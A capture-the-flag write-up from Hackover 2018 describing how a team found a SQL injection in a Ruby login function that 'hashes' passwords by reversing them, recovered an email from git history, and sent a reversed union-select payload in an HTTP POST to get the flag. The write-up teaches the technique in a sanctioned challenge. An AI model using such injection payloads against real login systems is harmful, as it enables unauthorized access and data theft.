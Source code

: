 ```yaml
---
layout: post
title: ctf 0x01 / Who knows John Dows? [WEB]
category: ctf
tags: [ctf, writeup, place, ctftime, shellraisers, hackover18, web, john, dows, stalking]
---
```

## Stalking at the wrong side [of query]

```
Howdy mate! Just login and hand out the flag, aye! You can find on h18johndoe has all you need!
```

What's interesting, the `h18johndoe` name points to a file in an external git repository (on github): [user_repo.rb](https://github.com/h18johndoe/user_repository/blob/master/user_repo.rb)

The interesting part of that code is:

```ruby
 def login(identification, password)
    hashed_input_password = hash(password)
    query = "select id, phone, email from users where email = '#{identification}' and password_digest = '#{hashed_input_password}' limit 1"
    puts "SQL executing: '#{query}'"
    @database[query].first if user_exists?(identification)
  end
```

We can also see that the *hashing* function is a simple reverse func:

```ruby
def hash(password)
    password.reverse
  end
```

Sooooo...

We can see that along the `identification` field, the `password` field is posted (note that it's not in the original request - you have to add it by yourself as there is no *password* input).
Furthermore, the password field is - as we've just observed - *hashed* by reversing and what we post is inserted into the SQL query. We've got an `SQL injection`!

We can't inject the identification field, though (as a check is performed to see whether the user exists), so we use the `hashed_input_password` part. We still need either the email or phone number as an identification. How can we obtain them? Well, from the GIT log after cloning the repo (thanks [tezeb](https://github.com/tezeb) for reminding me about this!):

```
$ git clone https://github.com/h18johndoe/user_repository
Cloning into 'user_repository'...
remote: Enumerating objects: 12, done.
remote: Counting objects: 100% (12/12), done.
remote: Compressing objects: 100% (5/5), done.
remote: Total 12 (delta 2), reused 12 (delta 2), pack-reused 0
Unpacking objects: 100% (12/12), done.
$ cd user_repository/
$ git log | head -5
commit b26aed283d56c65845b02957a11d90bc091ac35a
Author: John Doe <angelo_muh@yahoo.org>
Date:   Tue Oct 2 23:55:57 2018 +0200

    Add login method
(...)
commit 3ec70acbf846037458c93e8d0cb79a6daac98515
Author: John Doe <john_doe@notes.h18>
Date:   Tue Oct 2 23:01:30 2018 +0200

    Add user repo class and file
```

Thus, as we know what the *hashing* function does, we just supply the email and *hash* (reverse) the query to get in:

```
POST /login HTTP/1.1
Host: yo-know-john-dow.ctf.hackover.de:4567
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:62.0) Gecko/20100101 Firefox/62.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: pl,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://yo-know-john-dow.ctf.hackover.de:4567/login
Content-Type: application/x-www-form-urlencoded
Content-Length: 96
Cookie:  (...)
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1

identification=john_doe@notes.h18&password=-- 1 timil sresu morf enohp,2,1 tceles noinu 1=1 ro '
```
```html
<!doctype html>
<html>
<title>Yah know john dow?</title>
<!-- challange by ellcs -->
<meta name="viewport" content="width=device-width, initial-scale=1">
<link rel="stylesheet" href="w3.css">
<script type="text/javascript" src="/js/script.js"></script>
<body>
<div class="w3-container w3-bar w3-indigo"> <h1>D0 Y0u kn0W j0Hn D0w?</h1> </div>
<div class="w3-main">
  <div class="w3-bar w3-blue">
      <div class="w3-bar-item w3-green w3-mobile">Logged in as: 0157 1337 42</div>
      <a href="/logout" class="w3-bar-item w3-button w3-mobile">Logout</a>
  </div>
  <div class="w3-container w3-center">
    HERE IS YO FLAG:

    hackover18{I_KN0W_H4W_70_STALK_2018}
</div>
</div>
</body>
</html>
```

At this point we actually got frustrated since the flag didn't get accepted; we tried to go through the database (via `sqlite_master`) while pinging the organizers about the problem.

We didn't find anything in the DB and it was just a technical issue, after all - the organizers quickly fixed it, we submitted the flag and got the points :-)

**Flag:** `hackover18{I_KN0W_H4W_70_STALK_2018}`

Cheers!